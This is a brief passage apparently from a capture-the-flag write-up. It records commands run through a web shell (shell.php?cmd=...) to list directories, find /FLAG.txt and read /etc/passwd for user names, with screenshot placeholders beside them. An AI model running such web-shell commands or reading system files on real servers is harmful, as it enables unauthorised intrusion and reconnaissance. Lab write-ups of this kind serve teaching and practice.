     *   ![IMAGE: Screenshot of `shell.php?cmd=ls -la /var/www/html/` output.](imgs/img_13.png)
*   `ls -la /`: Identified `/FLAG.txt` in the root directory.
    *   ![IMAGE: Screenshot of `shell.php?cmd=ls -la /` output.](imgs/img_14.png)
*   `cat /etc/passwd`: Identified users `commandervex`, `engineerastra`, `orionterminal`.
